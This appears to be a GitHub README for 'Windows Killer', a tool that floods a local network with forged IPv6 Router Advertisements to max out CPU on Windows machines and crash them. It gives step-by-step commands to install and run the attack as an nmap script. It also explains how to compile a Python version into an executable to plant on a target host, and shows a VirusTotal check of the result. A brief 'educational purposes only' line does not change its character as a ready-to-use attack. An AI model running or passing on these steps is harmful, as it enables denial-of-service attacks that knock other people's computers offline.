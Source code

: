 # Windows Killer

Generates a flood of Router Advertisements (RA) with random source MAC addresses and IPv6 prefixes. Computers, which have stateless autoconfiguration enabled by default (every major OS), will start to compute IPv6 suffix and update their routing table to reflect the accepted announcement. This will cause 100% CPU usage on Windows and platforms, preventing to process other application requests.

# Install

git clone https://github.com/Kleptocratic/WindowsKiller.git

# Check for location of other NSE scripts

find / -name '*.nse'

# Move downloaded files into directory

sudo mv WindowsKiller.nse /usr/local/share/nmap/scripts/

# Execute script

nmap -6 --script WindowsKiller.nse --script-args 'interface=<interface>'
  
# WindowKiller.py
  
Designed as an eternal loop to be compiled as an executable and placed on target host, the script will pseudo-generate IPv6 Router Advertisements and flood the network with potential connections. Warning: this script will crash most, if not all, Windows operating systems within the LAN. This script is for educational purposes only. Be wise, stay legal.

# Compiling WindowsKiller.py as an Executable
  
Install PyInstaller from PyPI:

  pip install pyinstaller

Go to your program’s directory and run:

  pyinstaller --onefile WindowsKiller.py

Navigate to the "dist" file to find your executable!

# Virustotal 
  
![WindowsKiller](https://user-images.githubusercontent.com/72598486/130345543-f3219aaa-651f-4787-8bd5-7614f6e0f731.png)
